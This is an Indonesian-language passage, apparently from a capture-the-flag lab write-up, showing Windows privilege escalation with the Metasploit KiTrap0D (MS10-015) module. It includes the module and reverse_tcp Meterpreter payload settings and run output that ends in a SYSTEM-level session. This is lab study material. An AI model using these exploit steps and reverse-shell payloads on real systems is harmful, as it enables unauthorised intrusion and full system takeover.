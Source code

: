 dari hasil tersebut saya mengetahui terdapat banyak kemungkinan untuk melakukan privilege escalation, disini saya akan menggunakan module exploit **exploit/windows/local/ms10_015_kitrap0d**  cara kerja module ini membuat sebuah sesi baru dengan SYSTEM privilege dari exploit KiTrap0D yang dibuat oleh Travis Ormandy

```bash
msf6 exploit(windows/local/ms10_015_kitrap0d) > options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.15  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 2872 launched.
[*] Reflectively injecting the DLL into 2872...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.129.136.185
[*] Meterpreter session 2 opened (10.10.14.15:4444 -> 10.129.136.185:49174 ) at 2022-10-14 07:19:50 -1000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

sesuai dengan ekspetasi, saya berhasil mendapatkan akses penuh pada sistem tersebut.